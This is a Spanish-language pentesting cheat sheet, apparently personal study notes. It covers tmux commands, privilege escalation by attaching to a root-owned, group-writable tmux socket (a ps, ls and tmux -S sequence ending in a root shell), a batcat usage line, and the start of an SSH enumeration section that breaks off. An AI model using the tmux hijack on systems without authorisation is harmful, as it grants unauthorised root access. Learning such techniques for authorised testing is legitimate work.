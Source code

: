 > https://superuser.com/questions/231002/how-can-i-search-within-the-output-buffer-of-a-tmux-shell


Para sacar la version de tmux usa

```
tmux -V
```

Existe una manera de escalar privilegios con tmux corriendo una sesion como root

Si revisamos los procesos vemos un tmux ejecutandose como root. Si encuentras algo como esto:


```
user@box:/# ps -u root


/usr/bin/tmux -S /.devs/dev_sess

```

Nos damos cuenta que hay una session de tmux corriendo con privilegios de root Checamos si se puede escribir en ese archivo

```

user@box:/# ls -la /.devs/dev_sess
srw-rw---- 1 root usergroup

```
Como si poemos escribir pues podemos crear una sesion con priv de root. Entonces para se root solo has

```
user@box:/# tmux -S /.devs/dev_sess
root@box:/# id
uid=0(root) gid=0(root) groups=0(root)

```

> https://int0x33.medium.com/day-69-hijacking-tmux-sessions-2-priv-esc-f05893c4ded0

## Batcat

```bash
batcat file -l ruby
```

## SSH enum

Esto se puede de la version < 7.79 (para abajo)  IGUAL CHECA PORQUE PUEDEN SALIR MAS VERCIONES EN EL FUTURO ESTO ES UNA GUIA NOMAS.

![image](https://github.com/gecr07/Acordeon/assets/63270579/fd6442e6-ffa2-484d-9f73-e8bfca42c944)


Para probar passwords
